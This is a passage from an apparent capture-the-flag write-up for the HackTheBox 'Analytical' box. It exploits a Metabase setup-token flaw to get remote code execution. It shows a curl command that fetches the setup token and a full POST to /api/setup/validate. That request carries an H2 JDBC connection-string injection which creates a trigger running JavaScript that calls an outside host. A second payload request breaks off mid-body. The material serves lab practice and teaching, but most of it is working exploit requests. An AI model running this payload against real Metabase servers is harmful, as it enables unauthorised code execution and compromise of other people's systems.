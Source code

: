 ```bash
curl data.analytical.htb/api/session/properties -s | jq -r '."setup-token"'
249fa03d-fd94-4d5b-b94f-b4ebf3df681f
```

This calls the Metabase API to get the setup token and then uses `jq` to extract the token from the JSON response.

Now, with this token, we can make a POST request to the `/api/setup/validate` which will trigger the RCE, this is the request before our payload:

```bash
POST /api/setup/validate HTTP/1.1
Host: localhost
Content-Type: application/json
Content-Length: 566

{
    "token": "5491c003-41c2-482d-bab4-6e174aa1738c",
    "details":
    {
        "is_on_demand": false,
        "is_full_sync": false,
        "is_sample": false,
        "cache_ttl": null,
        "refingerprint": false,
        "auto_run_queries": true,
        "schedules":
        {},
        "details":
        {
            "db": "zip:/app/metabase.jar!/sample-database.db;MODE=MSSQLServer;TRACE_LEVEL_SYSTEM_OUT=1\\;CREATE TRIGGER IAMPWNED BEFORE SELECT ON INFORMATION_SCHEMA.TABLES AS $$//javascript\nnew java.net.URL('https://example.com/pwn134').openConnection().getContentLength()\n$$--=x\\;",
            "advanced-options": false,
            "ssl": true
        },
        "name": "an-sec-research-team",
        "engine": "h2"
    }
}
```

And this is the payload that we will use:

```bash
POST /api/setup/validate HTTP/1.1
Host: localhost
Content-Type: application/json
Content-Length: 812

{
    "token": "<your_token>",
    "details":
    {
        "is_on_demand": false,
        "is_full_sync": false,
        "is_sample": false,
        "cache_ttl": null,
        "refingerprint": false,
        "auto_run_queries": true,
        "schedules":
        {},
        "details":
        {
```